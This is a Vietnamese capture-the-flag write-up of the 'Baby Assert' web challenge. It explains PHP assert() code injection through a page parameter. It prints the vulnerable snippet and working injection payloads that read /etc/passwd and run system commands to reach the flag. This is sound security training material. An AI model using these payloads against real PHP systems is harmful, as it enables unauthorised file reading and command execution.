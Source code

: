 ```yaml
---
title: Write-Up Baby Assert
date: 2023-09-15 3:55:00 +0700
categories: [Write-Up, Cookie Hân Hoan]
tags: [Web, Write-Up]     # TAG names should always be lowercase
---
```

Địa chỉ : **[Baby Assert](https://battle.cookiearena.org/challenges/web/baby-assert)**

## Challenge Detail

Trong PHP, có rất nhiều cách để thay thế lệnh điều khiển If Else. Tuy nhiên, không phải lập trình viên nào cũng lường trước được những hậu quả nghiêm trọng khi sử dụng và thiết lập những tham số an toàn trên môi trường Production.

## Tags

- php
- Assert
- Code Injection

## Web Analysis:


- Tại `/index.php` trang web:

Có 3 Nút home, about và Secret mình xem thử từng cái.

![Untitled](/assets/writeup/cookie/BabyAssert/0.png)

Ta thấy ở trang web có 1 parameter **`?page=`**  ngay lúc này mình đã test về lỗi LFI ( ../ , ….//)  tuy nhiên nó đã không thực thi.

Quan sát thì web có gợi ý 1 đoạn code của trang web này:

```php
$file = "pages/" . $page . ".php";
assert(...$file...) or die("Detected hacking attempt!");
require_once $file;
```

Lúc này mình thấy có hàm `assert` có vẻ kì lạ…

- Tại `ABOUT`trang web:

![Untitled](/assets/writeup/cookie/BabyAssert/1.png)

Không có gì đặc biệt.

- Tại `SECRET` trang web:

![Untitled](/assets/writeup/cookie/BabyAssert/2.png)

Ta thấy `file flag` được đặt tên + thêm ký tự random. Vậy cho dù mình có thực thi được ../ lỗi LFI thì cũng không thể biết được tên cụ thể của file flag mà xem được. Nên phải RCE hệ thống.

`+1dea: RCE`

## PHÂN TÍCH ASSERT

Ở lúc này thì mình chưa biết về hàm assert hoạt động như thế nào và tìm hiểu nó.

![Untitled](/assets/writeup/cookie/BabyAssert/3.png)

![Untitled](/assets/writeup/cookie/BabyAssert/4.png)

chi tiết ở : [how assertions can get you hacked](https://infosecwriteups.com/how-assertions-can-get-you-hacked-da22c84fb8f6)

Vậy thì giải thích sơ

`**Assert()**` là một hàm đánh giá một biểu thức PHP nhất định và nếu biểu thức đánh giá là **`false`**, nó sẽ tạo ra một thông báo cảnh báo hoặc gây ra lỗi nghiêm trọng tùy thuộc vào cấu hình PHP. Nó thường được sử dụng cho mục đích gỡ lỗi và thử nghiệm.

Tuy nhiên, **`assert()`**có thể trở thành rủi ro bảo mật khi sử dụng không đúng cách, đặc biệt khi dữ liệu do người dùng kiểm soát được truyền trực tiếp vào chức **`assert()`**năng mà không được xác thực hoặc khử trùng thích hợp.

## Exploiting Assert()

**PAYLOAD AT HACKTRICK : [CLICK](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)**

![Untitled](/assets/writeup/cookie/BabyAssert/5.png)

ở đây để RCE thì ta inject vào 1 chuổi và +PHP 

thì nó có thể thực thi command như là webshell

Thử nghiệm

```php
PAYLOAD:
' and die(show_source('/etc/passwd')) or ‘
```

![Untitled](/assets/writeup/cookie/BabyAssert/6.png)

Nó đã thực thi được payload của chúng ta tuy nhiên không biết file flag tên gì nên mình phải RCE.

```php
PAYLOAD:
' and die(system("whoami")) or '
```

![Untitled](/assets/writeup/cookie/BabyAssert/7.png)

THÀNH CÔNG RỒI 

việc còn lại là xem file FLag

![Untitled](/assets/writeup/cookie/BabyAssert/8.png)

![Untitled](/assets/writeup/cookie/BabyAssert/9.png)

DONE =)))

`Written by Ren`
